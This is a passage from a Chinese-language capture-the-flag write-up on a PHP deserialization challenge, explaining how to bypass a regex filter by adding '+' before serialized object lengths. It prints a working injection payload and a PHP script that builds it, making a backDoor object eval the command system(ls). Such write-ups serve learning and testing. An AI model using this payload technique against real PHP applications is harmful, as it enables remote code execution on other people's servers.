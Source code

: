 ```php
}
```

这里得绕过正则 `/[oc]:\d+:/i'` ,但是反序列化后首字母肯定为 `O` ，所以这里只能绕过数字，那么我们可以，将数字前加 `+` 。

注意两个地方都加上，

```txt
O:+11:"ctfShowUser":4:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";s:5:"isVip";b:0;s:5:"class";O:+8:"backDoor":1:{s:4:"code";s:11:"system(ls);";}}
```

构造php脚本

```php
 <?php



highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'backDoor';

    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code="system(ls);";
    public function getInfo(){
        eval($this->code);
    }
}

$user = new ctfShowUser();
$user = serialize($user);
$user = str_replace("O:11","O:+11",$user); 
$user = str_replace("O:8","O:+8",$user); 
echo urlencode($user);
```
